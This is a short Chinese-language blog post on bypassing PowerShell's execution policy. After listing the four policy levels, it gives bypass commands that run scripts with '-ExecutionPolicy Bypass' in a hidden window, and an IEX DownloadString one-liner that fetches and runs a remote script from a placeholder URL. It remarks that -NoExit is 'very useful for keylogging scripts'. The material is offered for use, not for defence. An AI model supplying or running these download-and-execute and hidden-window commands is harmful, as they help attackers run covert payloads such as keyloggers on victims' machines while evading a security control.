 # PowerShell执行策略的简单绕过

  
#### 执行策略
```bash
Get-ExecutionPolicy   #查看当前策略

# 四种
- Restricted        #脚本不能运行（默认）
- RemoteSigned      #本地创建的脚本可以运行，但从网上下载的脚本不能运行
- AllSigned         #仅当脚本由信任的发布者签名时才能运行
- Unrestricted      #允许所有的脚本运行

# 设置PowerShell执行策略
Set-ExecutionPolicy <策略名>
```
  
#### 绕过
1.
```
# 先设置当前用户的执行策略为Unrestricted，也算是去更改了当前的全局策略
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted 
# 再执行脚本
```

2.
```
# 或是下面这种，-Windowstyle hidden 可以让我们的执行无任何弹窗, -NoProfile不加载当前用户配置
powershell.exe -executionpolicy bypass -Windowstyle hidden -Noninteractive -nologo -NoProfile -File xxx.sp1

# Noexit  执行结束不退出shell(对键盘记录等脚本非常有用)
```

3.
```
# 绕过本地权限执行
PowerShell.exe -ExecutionPolicy Bypass -File xxx.sp11
```

4.
```
# 用IEX下载远程PS1脚本绕过
PowerShell.exe -ExecutionPolicy Bypass  -Windowstyle hidden -Noninteractive -NoProfile IEX(New-ObjectNet.WebClient).DownloadString("http://xxxxx.xxx.ps1");[Parameters]
```

5.更多执行策略绕过: 
```
https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy
```


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/powershell%E6%89%A7%E8%A1%8C%E7%AD%96%E7%95%A5%E7%9A%84%E7%AE%80%E5%8D%95%E7%BB%95%E8%BF%87/  

